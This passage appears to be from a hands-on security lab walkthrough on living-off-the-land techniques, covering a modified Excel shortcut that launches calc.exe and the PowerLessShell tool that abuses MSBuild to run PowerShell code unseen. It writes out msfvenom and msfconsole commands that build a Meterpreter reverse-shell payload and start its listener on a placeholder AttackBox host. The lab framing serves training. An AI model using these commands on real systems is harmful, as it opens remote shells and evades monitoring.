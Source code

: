 The attached figure shows an example of a shortcut modification technique, where the attacker modified the Excel target section to execute a binary using `rundll32.exe`. We choose to execute a calculator instead of running the Excel application. Once the victim clicks on the Excel shortcut icon, the `calc.exe` is executed. For more information about shortcut modification, you may check [this](https://github.com/theonlykernel/atomic-red-team/blob/master/atomics/T1023/T1023.md) GitHub repo.

### No PowerShell!

In 2019, Red Canary published a threat detection report stating that PowerShell is the most used technique for malicious activities. Therefore, Organizations started to monitor or block powershell.exe from being executed. As a result, adversaries find other ways to run PowerShell code without spawning it.

![task7-msbuild](./images/task7-msbuild.png)

PowerLessShell is a Python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild), a platform for building Windows applications, to execute remote code.

First, let's download a copy of the project from the GitHub repo onto the AttackBox:

![task7-terminal](./images/task7-terminal.png)

One of the project requirements is to get a PowerShell payload to make it suitable to work with MSBuild. On the AttackBox, we need to generate a PowerShell payload using `msfvenom` as follows: 

```
user@machine$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1
```

Also, we need to run the Metasploit framework to listen and wait for the reverse shell.

```
user@machine$ msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4443;exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_winhttps
lhost => AttackBox_IP lport => 4443
[*] Started HTTPS reverse handler on https://AttackBox_IP:4443
```
